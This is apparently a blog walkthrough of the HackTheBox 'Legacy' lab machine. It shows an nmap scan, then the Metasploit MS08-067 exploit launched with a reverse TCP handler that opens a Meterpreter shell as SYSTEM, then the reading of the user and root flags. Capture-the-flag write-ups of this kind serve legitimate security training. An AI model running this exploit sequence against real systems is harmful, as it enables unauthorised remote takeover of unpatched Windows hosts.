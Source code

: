 ```yaml
---
title: "Walk-through of Legacy from HackTheBox"
header:
  teaser: /assets/images/2020-05-05-22-13-16.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - SMB
  - Metasploit
  - Windows

---
```


## Machine Information

![Legacy](/assets/images/2020-05-05-22-13-16.png)

Legacy is a beginner level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.
Skills learned are identifying vulnerable services and exploiting SMB.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 002 - Easy - Legacy](https://www.hackthebox.eu/home/machines/profile/2) |
| Machine Release Date | 15th March 2017 |
| Date I Completed It | 23rd July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/legacy# nmap -sC -sV -oA legacy 10.10.10.4

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-23 14:48 BST
Nmap scan report for 10.10.10.4
Host is up (0.039s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows,cpe:/o:microsoft:windows_xp
 Host script results:
 |_clock-skew: mean: 5d00h23m48s, deviation: 2h07m16s, median: 4d22h53m48s
 |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:7a:76 (VMware)
 | smb-os-discovery: 
 |   OS: Windows XP (Windows 2000 LAN Manager)
 |   OS CPE: cpe:/o:microsoft:windows_xp::-
 |   Computer name: legacy
 |   NetBIOS computer name: LEGACY\x00
 |   Workgroup: HTB\x00
 |_  System time: 2019-07-28T18:42:51+03:00
 | smb-security-mode: 
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_  message_signing: disabled (dangerous, but default)
 |_smb2-time: Protocol negotiation failed (SMB2)
```

### Gaining Access

The machine is running on Windows XP, start msfconsole and look for exploit:

```text
root@kali:~/htb/legacy# service postgresql start
root@kali:~/htb/legacy# msfconsole
```

Well known exploit for XP is netapi:

```text
msf5 > search netapi

Matching Modules
================ 
  #  Name                                 Disclosure Date  Rank    Check  Description
  -  ----                                 ---------------  ----    -----  -----------
  -     0  exploit/windows/smb/ms03_049_netapi  2003-11-11       good    No     MS03-049 Microsoft Workstation Service NetAddAlternateComputerName Overflow
  -     1  exploit/windows/smb/ms06_040_netapi  2006-08-08       good    No     MS06-040 Microsoft Server Service NetpwPathCanonicalize Overflow
  -     2  exploit/windows/smb/ms06_070_wkssvc  2006-11-14       manual  No     MS06-070 Microsoft Workstation Service NetpManageIPCConnect Overflow
  -     3  exploit/windows/smb/ms08_067_netapi  2008-10-28       great   Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

Says rank is great so try this:

```text
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > options
Module options (exploit/windows/smb/ms08_067_netapi): 
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Exploit target: 
   Id  Name
   --  ----
   0   Automatic Targeting

msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > exploit
[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.22:4444 -> 10.10.10.4:1035) at 2019-07-23 15:02:01 +0100
```

### User and Root Flags

Meterpreter session connected, take a look around:

```text
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\
```

Exploit has connected me as System, so can get both flags:

```text
meterpreter > cat "Documents and Settings\john\desktop\user.txt"
meterpreter > cat "Documents and Settings\administrator\desktop\root.txt"
```

All done, that was nice and easy.
